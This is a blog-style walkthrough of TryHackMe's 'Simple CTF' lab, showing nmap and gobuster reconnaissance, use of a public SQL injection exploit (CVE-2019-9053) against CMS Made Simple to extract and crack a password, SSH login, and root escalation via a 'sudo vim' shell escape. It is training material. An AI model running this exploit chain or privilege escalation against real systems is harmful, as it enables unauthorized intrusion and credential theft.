 ```yaml
---
title: TryHackMe Simple CTF
date: 2024-03-10 00:00:00 +0800
categories: [TryHackMe]
tags: [walkthough,write-ups]     # TAG names should always be lowercase
image:
    path: https://tryhackme-images.s3.amazonaws.com/room-icons/f28ade2b51eb7aeeac91002d41f29c47.png
---
```


A beginner level CTF. Know how to use nmap, directory busting, network service exploitation, searching CMS public exploit and linux privilege escalation.

## **Reconnaissance**
Initially do the Nmap scan.
```bash
nmap -sC -sV -p- $TARGET_IP --open
```
`-sV`: Enables version detection, which attempts to determine the version of services running on open ports.

`-sC`: Enables default script scanning, executing a set of scripts to discover additional information and potential vulnerabilities.

`-p-`: Scans all 65,535 TCP ports, allowing for thorough port enumeration.

`TARGET_IP`: Specifies the target IP address.

`--open`: Shows only open ports in the output, filtering out closed and filtered ports.


```text
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-08 06:37 EST
Nmap scan report for 10.10.157.97
Host is up (0.30s latency).
Not shown: 65532 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.13.50.82
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 394.01 seconds
```
Based on the Nmap scan results, the target system has two open ports with the following services.
- Port 21/tcp: vsftpd 3.0.3
- Port 2222/tcp: OpenSSH 7.2p2 running on Ubuntu Linux.
- Port 80/tcp: Apache HTTP Server 2.4.18 running on Ubuntu.

## **Insights**
---
- 80 HTTP
    - We have found a directory /simple that has a CMS
    - Search for a possible default login credentials
    - Found a CMS Version (CMS Made Simple version 2.2.8)
    - Search for a possible version vulnerability

- 21 FTP
    - vsftpd 3.0.3
    - We have FTP Anonymous login. We didn’t tried this one!

- 2222 SSH
    - We need some credentials to access this and bruteforcing can take a really long time before the credentials can be cracked. Hence, this is the least of our priorities for pentesting.
    - Found some credentials.

## **Enumeration**
---
### 80 HTTP
Based from our Nmap scan, it looks like port 80 only shows the Apache default page.

![Desktop View](/assets/images/simple-ctf/def-page.png){: width="972" height="589" }

Let us try scanning for other directories using gobuster. We also can’t do pretty much here.

```bash
gobuster dir -u http://10.10.157.97 -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -k -t 30
```

```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/simple               (Status: 301) [Size: 313] [--> http://10.10.157.97/simple/]
/server-status        (Status: 403) [Size: 300]
```

It looks like we have a redirect page. We can inspect that and look for more information


![Desktop View](/assets/images/simple-ctf/simple.png){: width="972" height="589" }

All right! We have a Content Management System (CMS), we can try inspecting source code and see if we can find something interesting.

![Desktop View](/assets/images/simple-ctf/source-code.png){: width="972" height="589" }

The version of the CMS mentioned is `2.2.8`, which suggests that this is the specific release of the software that the website is using. This means we can search in "google" or others like `[service_name]` `[version]` exploit

Fortunately, someone posted an updated CMS exploit on their github: [kriss-u/cmsmadesimple-exploit.py](https://gist.github.com/kriss-u/321f0418778697e2ec919f04664ceb4b)


This script is an exploit for an unauthenticated SQL injection vulnerability in CMS Made Simple versions up to 2.2.9, identified by [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053). The exploit performs a time-based SQL injection to extract sensitive information from the vulnerable web application

The script brute-forces the `username`, `email`, and `password` by sequentially guessing their values and observing the response time to determine when a guess is correct.

If the `--crack` option is used, the script attempts to crack the hashed password by hashing each word in the provided wordlist with the previously extracted salt and comparing it against the extracted hashed password.


```bash
python3 exploit.py -u http://target-uri --crack -w /path-wordlist
```

Using the exploit we have found

```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```


## **Gaining an Initial Foothold**

Now that we have a username and a password. How about using these credentials to log in via SSH running on port 2222.

```bash
ssh mitch@<TARGET_IP>> -p 2222
```
![Desktop View](/assets/images/simple-ctf/ssh.png){: width="972" height="589" }

Now we got the shell, let us look for the flag

```bash
/home/mitch/user.txt
```

Let us also look for another user!

![Desktop View](/assets/images/simple-ctf/user2.png){: width="972" height="589" }

## **Privilege Escalation**

I initially checked `sudo -l` command to list the permissions granted to the current user in the sudoers file.

We found that granting a user, such as `"mitch"`, has the ability to run Vim as root without a password, as specified by `(root) NOPASSWD: /usr/bin/vim` in the sudoers configuration. This privilege effectively elevates "mitch" to have root-level access for the scope of actions performable within Vim, bypassing standard security protocols that require authentication for such elevated privileges.

![Desktop View](/assets/images/simple-ctf/sudo-priv.png){: width="972" height="589" }

We can use [gtfobin](https://gtfobins.github.io/gtfobins/vim/#sudo) for privilege escalation.

```
sudo vim -c ':!/bin/sh'
```
![Desktop View](/assets/images/simple-ctf/pwned.png){: width="972" height="589" }



## TAKE AWAY CONCEPTS
- Learn how the exploit works. There are instances where the code might not work you expected it to be.